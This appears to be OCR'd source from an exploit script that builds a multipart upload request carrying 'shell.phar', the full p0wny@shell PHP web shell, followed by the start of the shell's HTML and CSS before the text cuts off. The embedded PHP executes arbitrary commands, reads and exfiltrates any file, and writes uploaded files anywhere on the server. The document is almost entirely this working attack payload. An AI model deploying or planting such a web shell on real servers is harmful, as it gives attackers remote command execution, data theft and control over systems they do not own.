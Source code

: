     data = "-----------------------------5170699732428994785525662060\r\nContent-Disposition: form-data; name=\"filefile\"; filename=\"shell.phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\n\nfunction featureShell($cmd, $cwd) {\n    $stdout = array();\n\n    if (preg_match(\"/^\\s*cd\\s*$/\", $cmd)) {\n        // pass\n    } elseif (preg_match(\"/^\\s*cd\\s+(.+)\\s*(2>&1)?$/\", $cmd)) {\n        chdir($cwd);\n        preg_match(\"/^\\s*cd\\s+([^\\s]+)\\s*(2>&1)?$/\", $cmd, $match);\n        chdir($match[1]);\n    } elseif (preg_match(\"/^\\s*download\\s+[^\\s]+\\s*(2>&1)?$/\", $cmd)) {\n        chdir($cwd);\n        preg_match(\"/^\\s*download\\s+([^\\s]+)\\s*(2>&1)?$/\", $cmd, $match);\n        return featureDownload($match[1]);\n    } else {\n        chdir($cwd);\n        exec($cmd, $stdout);\n    }\n\n    return array(\n        \"stdout\" => $stdout,\n        \"cwd\" => getcwd()\n    );\n}\n\nfunction featurePwd() {\n    return array(\"cwd\" => getcwd());\n}\n\nfunction featureHint($fileName, $cwd, $type) {\n    chdir($cwd);\n    if ($type == 'cmd') {\n        $cmd = \"compgen -c $fileName\";\n    } else {\n        $cmd = \"compgen -f $fileName\";\n    }\n    $cmd = \"/bin/bash -c \\\"$cmd\\\"\";\n    $files = explode(\"\\n\", shell_exec($cmd));\n    return array(\n        'files' => $files,\n    );\n}\n\nfunction featureDownload($filePath) {\n    $file = @file_get_contents($filePath);\n    if ($file === FALSE) {\n        return array(\n            'stdout' => array('File not found / no read permission.'),\n            'cwd' => getcwd()\n        );\n    } else {\n        return array(\n            'name' => basename($filePath),\n            'file' => base64_encode($file)\n        );\n    }\n}\n\nfunction featureUpload($path, $file, $cwd) {\n    chdir($cwd);\n    $f = @fopen($path, 'wb');\n    if ($f === FALSE) {\n        return array(\n            'stdout' => array('Invalid path / no write permission.'),\n            'cwd' => getcwd()\n        );\n    } else {\n        fwrite($f, base64_decode($file));\n        fclose($f);\n        return array(\n            'stdout' => array('Done.'),\n            'cwd' => getcwd()\n        );\n    }\n}\n\nif (isset($_GET[\"feature\"])) {\n\n    $response = NULL;\n\n    switch ($_GET[\"feature\"]) {\n        case \"shell\":\n            $cmd = $_POST['cmd'];\n            if (!preg_match('/2>/', $cmd)) {\n                $cmd .= ' 2>&1';\n            }\n            $response = featureShell($cmd, $_POST[\"cwd\"]);\n            break;\n        case \"pwd\":\n            $response = featurePwd();\n            break;\n        case \"hint\":\n            $response = featureHint($_POST['filename'], $_POST['cwd'], $_POST['type']);\n            break;\n        case 'upload':\n            $response = featureUpload($_POST['path'], $_POST['file'], $_POST['cwd']);\n    }\n\n    header(\"Content-Type: application/json\");\n    echo json_encode($response);\n    die();\n}\n\n?><!DOCTYPE html>\n\n<html>\n\n    <head>\n        <meta charset=\"UTF-8\" />\n        <title>p0wny@shell:~#</title>\n        <meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\" />\n        <style>\n            html, body {\n                margin: 0;\n                padding: 0;\n                background: #333;\n                color: #eee;\n                font-family: monospace;\n            }\n\n            *::-webkit-scrollbar-track {\n                border-radius: 8px;\n                background-color: #353535;\n            }\n\n            *::-webkit-scrollbar {\n                width: 8px;\n                height: 8px;\n            }\n\n            *::-webkit-scrollbar-thumb {\n                border-radius: 8px;\n                -webkit-box-shadow: inset 0 0 6px rgba(0,0,0,.3);\n                background-color: #bcbcbc;\n            }\n\n            #shell {\n                background: #222;\n                max-width: 800px;\n                margin: 50px auto 0 auto;\n                box-shadow: 0 0 5px rgba(0, 0, 0, .3);\n                font-size: 10pt;\n                display: flex;\n                flex-direction: column;\n                align-items: stretch;\n            }\n\n            #shell-content {\n                height: 500px;\n                overflow: auto;\n                padding: 5px;\n                white-space: pre-wrap;\n                flex-grow: 1;\n            }\n\n            #shell-logo {\n                font-weight: bold;\n                color: #FF4180;\n                text-align: center;\n            }\n\n            @media (max-width: 991px) {\n                #shell-logo {\n                    font-size: 6px;\n                    margin: -25px 0;\n                }\n\n                html, body, #shell {\n                    height: 100%;\n                    width: 100%;\n                    max-width: none;\n                }\n\n                #shell {\n                    margin-top: 0;\n                }\n            }\n\n            @media (max-width: 767px) {\n                #shell-input {\n                    flex-direction: column;\n                }\n            }\n\n            @media (max-width: 320px) {\n                #shell-logo {\n                    font-size: 5px;\n                }\n            }\n\n            .shell-prompt {\n                font-weight: bold;\n                color: #75DF0B;\n            }\n\n            .shell-prompt > span {\n                color: #1BC9E7;\n            }\n\n            #shell-input {\n                display: flex;\n                box-shadow: 0 -1px 0 rgba(0, 0, 0, .3);\n                border-top: rgba(255, 255, 255, .05) solid 1px;\n            }\n\n            #shell-input > label {\n                flex-grow: 0;\n                display: block;\n                padding: 0 5px;\n                height: 30px;\n                line-height: 30px;\n            }\n\n